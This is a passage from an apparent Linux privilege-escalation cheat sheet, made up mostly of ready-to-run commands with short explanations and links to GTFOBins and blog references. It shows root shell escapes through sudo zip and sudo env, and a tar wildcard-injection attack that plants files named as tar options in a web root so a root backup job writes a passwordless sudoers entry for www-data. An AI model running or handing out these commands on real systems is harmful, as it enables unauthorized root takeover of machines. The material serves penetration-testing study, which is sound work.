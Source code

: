 If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

## ENV

### Sudo

```
sudo env /bin/sh
```



## Tar (Wildcard Injection)

Basically, tar allows the usage of 2 options that can be used for poisoning, in order to force the binary to execute unintended actions:

* checkpoint\[=NUMBER] — this option displays progress messages every NUMBERth record (default value is 10)
* checkpoint-action=ACTION — this option executes said ACTION on each checkpoint

```
echo 'echo "www-data ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > sudo.sh

touch "/var/www/html/--checkpoint-action=exec=sh sudo.sh"

touch "/var/www/html/--checkpoint=1"

# If there is an backup file running as root and using tar commands to 
compress a folder then you use the above 3 commands inside that folder.

# After that you just need to do sudo su to become root. The time to execute the
backup file may depends. Look at the /etc/crontab file

sudo su

```



***

## REFERENCES

* [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid)
* [https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/)
* [https://gtfobins.github.io/gtfobins/env/#sudo](https://gtfobins.github.io/gtfobins/env/#sudo)
* [https://gtfobins.github.io/gtfobins/find/#suid](https://gtfobins.github.io/gtfobins/find/#suid)
* [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
* [https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)
